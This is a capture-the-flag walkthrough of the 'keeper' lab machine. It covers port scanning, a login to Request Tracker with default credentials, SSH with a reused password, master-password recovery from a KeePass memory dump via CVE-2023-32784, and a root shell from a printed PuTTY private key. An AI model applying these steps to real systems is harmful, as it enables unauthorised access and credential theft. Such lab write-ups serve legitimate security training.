

# keeper

| Hostname   | Difficulty |
| ---        | ---        |
| keeper |  Easy          |

Machine IP: 10.129.204.207 :

```bash
TARGET=10.129.207.180       # keeper IP address
```

## Initial Reconnaissance

### Ports and services

Let's start by enumerate the exposed services :

```shell
# -p- : ports to scan. "-" is for all ports
NMAP_TARGET=$TARGET # target to scan
# -T4 : timing template (0(slower) to 5(faster) )
# -Pn : Treat all hosts as online -- skip host discovery
# --min-rate=1000 : Send packets no slower than <number> per second
NMAP_OUTPUT=$NMAP_TARGET-nmap-enumports # Save output to file(s)
nmap -p- $NMAP_TARGET -T4 -Pn --min-rate=1000 -oA $NMAP_OUTPUT
```

Result:

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 21:54 CEST
Nmap scan report for 10.129.204.207
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.17 seconds
```

### Web service

Let's identify this web service :

```shell
whatweb http://$TARGET
```

```text
http://10.129.207.180 [200 OK] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.207.180], nginx[1.18.0]
```

Let's browse to this web application :

```shell
firefox http://$TARGET &
```



We have the hosname to use, so add it to our `/etc/hosts` :

```shell
echo "$TARGET    keeper.htb tickets.keeper.htb" >> /etc/hosts
```

Then click on the link (http://tickets.keeper.htb/rt/) :


This is Request Tracker (RT), from Best Practical Solutions, version 4.4.4 on a ubuntu host.

A directory enumeration will not provide anything usefull.
## Initial access

### Exploitation

Reading the tool manual at https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration will point a default credentail :

root/password

Using this will open the application :


There is only 1 ticket :


Description from **Enoch Root** :

> Lise,
>
>Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?
>
> Thanks! 

Answer from **Lise Nørgaard** :

> I have saved the file to my home directory and removed the attachment for security reasons.
>
>Once my investigation of the crash dump is complete, I will let you know.

As we have an admin account, we can find more information on users in the Admin section :


Then: users -> select

only 2 users :


|                                                                         |               |                      |
| ----------- | ------------- | -------------------- |
|  lnorgaard | Lise Nørgaard | lnorgaard@keeper.htb |
| root      | Enoch Root    | root@localhost       |


Credentials :

| Username  | email | Password     | Hash | Usage |
| --------- | ----- | ------------ | ---- | ----- |
| lnorgaard |       | Welcome2023! |      |       |
| root      |       | password     |      | Admin access to RT      |

We can note that user "lnorgaard" is using the language: **Danish**

We can access to the host by SSH with this credential :

```shell
ssh lnorgaard@keeper.htb
```

## Post-Exploitation

### Host Reconnaissance

```shell
lnorgaard@keeper:~$ ls -la
```

```text
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 .
drwxr-xr-x 3 root      root          4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
-rw-r--r-- 1 root      root      87391651 Aug 14 22:38 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh
-rw-r----- 1 root      lnorgaard       33 Aug 14 15:56 user.txt
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
```


We note here the file "RT30000.zip", which seems to refer to the ticket #30000, where Lise Nørgaard have replied she saved the crash dump to her home directory.

We can download this file to our attack box by SCP:

```shell
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
```

And extract it :

```shell
unzip RT30000.zip 
```

```text
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx  
```

We have the keepass database, and the memory dump.
### Privilege Escalation

Some investigation will lead to CVE-2023-32784 : https://nvd.nist.gov/vuln/detail/cve-2023-32784

> In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

We have to find an exploit :

> search: site:github.com Keepass memory dump master pass

One is quickly found : https://github.com/CMEPW/keepass-dump-masterkey

This is a single python file, we can download and execute :

```text
python3 ./poc.py KeePassDumpFull.dmp 
[.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

This is a short list of possible passwords with uncertainity on the first letters. We can note the passphrase is composed of 3 words.

We know that Lise is using Danish Language. Even if Enoch has setted "English" lnanguage, we still should consider Danish as a possibility.

The first word is too uncertain to use it, so we can search google for : "Danish med fl●de".

This will point an interesting result : https://www.myrecipes.com/extracrispy/danish-rodgrod-med-flode

This is matching our possible 3 words : "Rødgrød med Fløde"

If required, install keepassx:

```shell
apt install keepassx
```

Open the database :

```shell
keepassx ./passcodes.kdbx &
```

After a few tries, we can unlock with lowercase : "rødgrød med fløde"


only 2 interesting entries :


In network:
- Ticketing System
    username: lnorgaard
    password: Welcome2023!
- keeper.htb (Ticketing Server)
    usename: root
    password: `F4><3K0nd!`
    with notes :
```text
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

This is a putty file.

If required install the latest version of `puttygen` :

```shell
apt install wine
wget https://the.earth.li/~sgtatham/putty/latest/w64/puttygen.exe
wine puttygen.exe
```

Use puttygen to convert this file into an openssh private key :

```shell
puttygen
```

File --> Load private key


Then Conversions -->Export openSSH key

Save as "root.key"

Then get a shell as root :

```shell
chmod 600 root.key # protect key (required by ssh client)
ssh root@keeper.htb -i root.key

root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```
